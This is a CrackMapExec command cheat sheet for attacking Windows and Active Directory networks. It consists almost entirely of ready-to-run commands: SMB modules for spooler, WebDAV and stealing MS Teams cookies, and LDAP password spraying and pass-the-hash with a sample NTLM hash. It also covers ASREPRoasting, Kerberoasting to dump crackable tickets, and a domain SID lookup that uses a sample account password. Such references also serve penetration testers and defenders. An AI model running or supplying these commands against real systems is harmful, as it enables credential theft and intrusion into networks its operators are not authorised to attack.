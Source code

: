 ## Spooler

```
cme smb <ip> -u 'user' -p 'pass' -M spooler
```

## WebDAV

```
cme smb <ip> -u 'user' -p 'pass' -M webdav
```

## Steal MS Teams Cookies

```
cme smb <ip> -u user -p pass -M teams_localdb
```

## LDAP

#### LDAP Authentication

```
cme ldap 192.168.1.0/24 -u users.txt -p '' -k
cme ldap 192.168.1.0/24 -u user -p password
cme ldap 192.168.1.0/24 -u user -H A29F7623FD11550DEF0192DE9246F46B
```

### ASREPRoast

#### Without Authentication

```
cme ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
cme ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
```

#### With Authentication

```
cme ldap 192.168.0.104 -u harry -p pass --asreproast output.txt
cme ldap 192.168.0.104 -u harry -p pass --asreproast output.txt --kdcHost domain_name
```

### Find Domain SID

```
cme ldap DC1.scrm.local -u sqlsvc -p Pegasus60 -k --get-sid
```

### Kerberoasting

```
cme ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
```
